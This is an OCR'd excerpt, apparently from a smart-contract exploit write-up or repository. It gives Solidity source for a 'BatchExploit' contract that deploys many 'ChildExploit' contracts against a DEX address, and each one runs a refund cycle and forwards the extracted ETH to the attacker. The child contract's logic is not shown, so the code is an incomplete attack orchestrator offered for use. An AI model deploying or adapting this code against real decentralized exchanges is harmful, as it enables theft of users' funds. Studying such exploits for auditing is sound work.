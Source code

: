 The BatchExploit contract code is as follows:

```solidity
/* ========== BatchExploit Contract ========== */
/**
 * @notice Deploy this contract with the Dex address.
 * Then, call deployBatch() with the desired parameters:
 *
 *    - ethPerContract: The amount of ETH (in wei) to send to each ChildExploit (e.g. 1,000,000 wei).
 *    - batchSize: The number of ChildExploit contracts to deploy in one transaction.
 *
 * Each ChildExploit instance executes its refund cycle and forwards the resulting ETH to tx.origin.
 * Any leftover ETH is returned to the contract owner.
 */
contract BatchExploit {
    address public owner;
    address public dex;

    constructor(address _dex) {
        owner = msg.sender;
        dex = _dex;
    }

    /**
     * @notice Deploys up to `batchSize` ChildExploit contracts, each receiving `ethPerContract` wei.
     * Leftover ETH that is insufficient for another deployment is refunded to the owner.
     */
    function deployBatch(uint256 ethPerContract, uint256 batchSize) external payable {
        require(msg.sender == owner, "Only owner");
        require(ethPerContract > 0, "ethPerContract must be > 0");
        require(batchSize > 0, "batchSize must be > 0");

        uint256 available = msg.value;

        // Deploy ChildExploit contracts as long as there is enough ETH.
        for (uint256 i = 0; i < batchSize && available >= ethPerContract; i++) {
            new ChildExploit{value: ethPerContract}(dex);
            available -= ethPerContract;
        }

        // Refund any leftover ETH to the owner.
        if (available > 0) {
            (bool sent, ) = payable(owner).call{value: available}("");
            require(sent, "Refund of leftover ETH failed");
        }
    }

    receive() external payable {}
}
```
